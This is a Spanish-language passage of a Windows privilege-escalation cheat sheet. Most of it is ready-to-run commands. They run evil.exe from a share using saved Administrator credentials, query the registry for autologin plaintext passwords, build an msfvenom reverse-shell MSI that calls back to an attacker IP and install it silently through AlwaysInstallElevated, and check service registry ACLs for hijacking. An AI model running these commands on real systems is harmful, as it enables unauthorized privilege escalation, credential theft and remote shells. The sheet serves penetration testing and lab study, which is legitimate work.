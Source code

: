 ```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

*[Más info en PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas)*


### Windows Autologin

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
``` 

### Registry

#### Autorun

Buscar directorios que cuenten con `FilePerms: Everyone [AllAccess]`, si se ejecuta un programa, se puede sobreescribir el programa.

![WinPEAS Autorun](images/autorun.png)

#### AlwaysInstallElevated

```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

# Generar msi
msfvenom -p windows/shell_reverse_tcp lhost=10.18.12.69 lport=1234 -f msi -o setup.msi

# Ejecutar
msiexec /quiet /qn /i C:\Temp\setup.msi
```

#### Service Escalation `regsvc`

```powershell
powershell.exe -ep bypass
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

Si el usuario pertenece a `NT AUTHORITY\INTERACTIVE` y tiene el permiso de `FullControl` en el registro, es explotable. Ejemplo:

```powershell
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl # Permiso
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
```
